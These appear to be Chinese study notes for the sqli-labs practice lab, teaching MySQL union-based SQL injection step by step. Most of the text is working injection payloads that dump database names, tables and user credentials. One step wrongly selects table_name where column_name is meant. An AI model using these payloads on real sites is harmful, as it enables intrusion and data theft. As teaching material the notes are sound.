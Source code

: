 ### 注入基本流程
以*mysql数据库*为例, 这也是现如今被开发者使用得最多的数据库系统
1. 寻找注入点, 在网页中的搜索框(URL地址栏)尝试能否注入(是否有回显)
	- `id=1' and 1=1 --+`判断存在
	- `id=-1' or 1=1 --+` 构造报错
1. 判断闭合方式: 字符串型/数字型, 单引号括号
	- `?id=1asdf'`
		- 有报错: 数字型, 无闭合或)闭合
		- 无报错: 字符型, 再判断闭合方式(`'`, `"`, `')`, `")`)
2. 验证漏洞: 是否能按照期望回显
	- `?id=1' and 1 --+` 正常显示 (--+是注释, url中的'+'会被翻译成空格, mysql也可以使用'#')
	- `?id=1' and 0 --+` 无显示
3. 判断列数和回显位: order by 和 union select
	- 列数: `?id=1' order by 3 --+` (在mysql中orderby可以指定用于排序的列在SELECT语句结果集中的位置, 所以此处枚举可回显的最大序号列)
	- 回显位: `?id=-1' union select 1,2,3 --+` (联合查询的数量取决于上一步所获取到的列数(必须相同才能联合查询), 查看所有列中第几位能够回显, 重要的是让前面一个表达式为空/False)
4. 取数据: 
	- 库名: `database()` 替换可以回显的位置
	- 表名: `(select group_concat(table_name) from information_schema.tables where table_schema=database())` 替换回显位
	- 列名(users): `(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users')` 替换回显位
	- 具体数据(username): `(select group_concat(username) from users)`
- 注入完成: **可以任意获取数据库内的数据**

---

## 显错注入
### GET显错注入
- **sqli-labs: Less-1**
0. 判断	
	- `id=1' and 1=1 --+`判断存在
	- `id=-1' or 1=1 --+` 构造报错
1. 获取字段数 `order by x`
	- `id=1' order by 3 --+`
2. 获取显示位 `union select 1,2,3,4`, 对应字段数
	- `id=1' union select 1,2,3 --+`
3. 获取数据库信息 `version()`, `user()`, `@@datadir`
	- `id=1' union select 1,(select version()),(select user()) --+`
4. 获取当前数据库 `database()`, `schema()`
	- `id=1' union select 1,(select database()),3 --+`
5. 获取所有数据库
	- `id=1' union select 1,group_concat(schema_name),3 from information_schema.schemata --+`
6. 获取"security"数据库所有表名
	- `id=1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+`
7. 获取"security.users"表所有字段
	- `id=1' union select 1,group_concat(table_name),3 from information_schema.columns where table_schema='security' and table_name='users' --+`
8. 获取数据
	- `id=1' union select 1,username,password from security.users --+`
